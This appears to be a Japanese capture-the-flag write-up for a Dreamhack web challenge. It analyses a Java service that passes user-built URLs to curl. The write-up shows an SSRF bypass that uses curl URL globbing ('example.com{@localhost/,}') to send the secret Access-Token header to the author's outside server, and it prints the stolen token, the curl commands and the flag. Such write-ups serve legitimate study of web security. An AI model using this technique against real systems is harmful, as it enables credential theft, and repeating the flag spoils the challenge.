


# Strong BypassIF:web:834pts
Access `/api/flag` to get the flag.  

[Download challenge](8d61bd82-0be7-477a-b7cd-3e90933412ea.zip)  

Servers  
Host: host3.dreamhack.games  
Port: 19540/tcp → 8080/tcp  

# Solution
ソースと接続先が渡される。  
アクセスすると`/request`にリダイレクトされ、Scheme、User Info、Host、Pathを設定してHTTPリクエストを行えるサービスのようだ。  
  
配布されたソースを見るとJavaで作成されている。  
明らかにSSRFが怪しいので、フラグの場所を確認する。  
`src/main/java/com/dreamhack/apitest/api/TestApi.java`に、以下の通りフラグを返す機能が実装されている。  
```java
~~~

@RestController
@RequestMapping("/api")
public class TestApi {

    @Value("${flag}")
    private String flag;

    @GetMapping("/flag")
    public ResponseEntity<Map<String, String>> getFlag(@RequestHeader(value="Access-Token", required=true) String accessToken){
        Map<String, String> response = new HashMap<>();
        if (accessToken == null || accessToken.isEmpty()){
            response.put("result", "fail");
            response.put("message", "Unauthorized");
            return ResponseEntity.status(403).body(response);
        }
        if (!accessToken.equals("[**REDACTED**]")){
            System.out.println(accessToken);
            response.put("result", "fail");
            response.put("message", "Access token is not Valid");
            return ResponseEntity.status(400).body(response);
        }
        response.put("result", "success");
        response.put("message", flag);
        return ResponseEntity.ok(response);
    }

    @GetMapping("/test")
    public ResponseEntity<Map<String, String>> doHealthCheck(){
        Map<String, String> response = new HashMap<>();
        response.put("result", "success");
        response.put("message", "Good");
        return ResponseEntity.ok(response);
    }
}
```
`/api/flag`に正しい`Access-Token`ヘッダのついたリクエストを送った場合にのみフラグを表示するようだ。  
`/api/test`は常に`Good`と返すテスト用のようだ。  
次に`src/main/java/com/dreamhack/apitest/controller/ApiTestController.java`のサービス本体のソースコードを確認する。  
```java
~~~

@Controller
public class ApiTestController {
    @Value("${access-token}")
    private String accessToken;


    public static final String[] ALLOWED_HOSTS = new String[]{
            "127.0.0.1",
            "localhost",
    };

    private boolean containsInvalidCharacters(String str){
        String invalidCharacters = "?/#@";
        for (char c : invalidCharacters.toCharArray()) {
            if(str.indexOf(c) != -1){
                return true;
            }
        }
        return false;
    }

    @GetMapping("/")
    public RedirectView index(Model model) {
        return new RedirectView("/request");
    }

    @GetMapping("/request")
    public String showForm(Model model){
        return "req";
    }

    @PostMapping("/request")
    public String doRequest(@RequestParam(defaultValue = "") String userInfo,
                           @RequestParam String scheme,
                           @RequestParam String host,
                           @RequestParam(defaultValue = "/") String path,
                           Model model) {
        String url = "";

        if (!scheme.equals("http") && !scheme.equals("https")) {
            model.addAttribute("message", "Only http or https.");
            model.addAttribute("url", null);
            return "reqResult";
        }

        if (containsInvalidCharacters(userInfo)) {
            model.addAttribute("message", "The input contains invalid characters.");
            model.addAttribute("url", null);
            return "reqResult";
        }
        userInfo = userInfo.replaceAll("\\s+", "");

        if (containsInvalidCharacters(host)) {
            model.addAttribute("message", "The host contains invalid characters.");
            model.addAttribute("url", null);
            return "reqResult";
        }
        host = host.replaceAll("\\s+", "");

        if (!path.startsWith("/")) path = '/' + path;
        path = path.replaceAll("\\s+", "");

        if (!userInfo.isEmpty()) {
            url = scheme + "://" + userInfo + "@" + host + path;
        } else {
            url = scheme + "://" + host + path;
        }

        String parsed_host = UriComponentsBuilder.fromHttpUrl(URLDecoder.decode(url)).build().getHost();
        System.out.println(parsed_host);
        if (Arrays.asList(ALLOWED_HOSTS).contains(parsed_host)) {

            try {
                String[] cmd = {"curl", "-H", "Access-Token: " + accessToken, "-s", url};
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader stdInput = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                StringBuilder sb = new StringBuilder();
                while ((line = stdInput.readLine()) != null) {
                    sb.append(line);
                }
                p.waitFor();
                if (sb.toString().contains("DH{")){
                    model.addAttribute("message", "You can't see the flag");
                    model.addAttribute("url", url);
                    return "reqResult";
                }
                model.addAttribute("message", sb.toString());
                model.addAttribute("url", url);
                return "reqResult";

            } catch (IOException | InterruptedException e) {
                throw new RuntimeException(e);
            }
        }else{
            model.addAttribute("message", "Not allowed to access this URL.");
            model.addAttribute("url", url);
            return "reqResult";
        }

    }
}
```
順に読んでいくと、初めにリクエストの`scheme`が`http`または`https`であることを確認している。  
次に、`userInfo`と`host`に`?/#@`のいずれも含まれていないことをチェックし、正規表現で`\\s+`にマッチするものをすべて削除している。  
さらに`path`を`/`で始め、同じく正規表現で`\\s+`にマッチするものをすべて削除している。  
最後に、それらを連結した`url`のホストが`ALLOWED_HOSTS`(`127.0.0.1`または`localhost`)であれば、正しい`Access-Token`ヘッダを付けて`curl`コマンド実行し、結果を表示している。  
ただしcurlの結果にフラグの先頭である`DH{`が含まれていると、`You can't see the flag`とブロックして結果を表示してくれない。  
まとめると、`Access-Token`ヘッダがついたリクエストを`ALLOWED_HOSTS`にcurlで送信できるSSRF問題のようだ。  
`file`などのスキームは使えず、スペースやタブでのOSコマンドの実行やcurlのオプションの付加は禁止されている。  
また、`userInfo`と`host`に`?/#@`などを含めることでホストを分割し、`ALLOWED_HOSTS`以外にリクエストを送ることも禁止されている。  
最後にcurl結果の`DH{`のブロックもある。  
まずはフラグの最終的な取得方法を考える。  
`DH{`がブロックされるのを出力を加工すること(部分的な読み出しやエンコードなど)でバイパスするか、`Access-Token`を盗み出し`/api/flag`を直接叩くかの二つが思いつく。  
前者は`-r`オプションなどで先頭の`DH{`を読み飛ばすアプローチが考えられるが、スペースが消されるため難しい。  
試しに`-r`オプション付きで`/api/test`を叩くが、サーバが`Range`ヘッダを解釈しないためそもそもバイパスできないようだ。  
```bash
$ curl http://host3.dreamhack.games:19540/api/test -r 10-15
{"result":"success","message":"Good"}
```
後者の`Access-Token`を盗み出すことを考える。  
`ALLOWED_HOSTS`以外にリクエストを送ることができれば、自分のサーバなどでリクエストを受け付け`Access-Token`を入手できる。  
どうにかして誤魔化せないかと考えていると、HTTPリクエストを送るためだけに`curl`コマンドを使っていることが不自然だと気づく。  
JavaのHTTPクライアントを用いれば良いにもかかわらず、OSコマンドが実行される恐れのある実装である。  
curl特有の機能を使うのではと考えていると、`http://example.com/{file1,file2}`のようなGlobbingが利用可能であったことを思い出す。  
この例では、`http://example.com/file1`と`http://example.com/file2`の二つにリクエストが発される。  
この機能をホスト部分に利用することを試みる。  
幸い`{`や`}`は禁止されていないので、うまくホストを誤魔化せそうだ。  
Schemeを`http`、User Infoを`example.com{`、Hostを`localhost`、Pathを`/,}`とすると、連結により`http://example.com{@localhost/,}`のようなURLとなる。  
このURLの解析ではホストは`localhost`となるが、curlでは`http://example.com@localhost/`と`http://example.com`の両方にリクエストが飛ぶ。  
あとは`example.com`を自身のサーバに書き換え、リクエストを待ち受けてやればよい。  
以下のように行う。  
  
サーバには以下のリクエストが届いた。  
```
{
    'method': 'GET', 
    'headers': {
        'Host': 's4t.pw', 
        'User-Agent': 'curl/7.81.0', 
        'Accept': '*/*', 
        'Access-Token': 'YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXo'
    }
}
```
`Access-Token`を盗み出せたので`/api/flag`を直接叩いてやる。  
```bash
$ curl http://host3.dreamhack.games:19540/api/flag -H 'Access-Token: YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXo'
{"result":"success","message":"DH{797d6b48b524544a3ba9a1874a265efbe286c08fee90200fbfe92f8f54baf237}"}
```
flagが得られた。  

## DH{797d6b48b524544a3ba9a1874a265efbe286c08fee90200fbfe92f8f54baf237}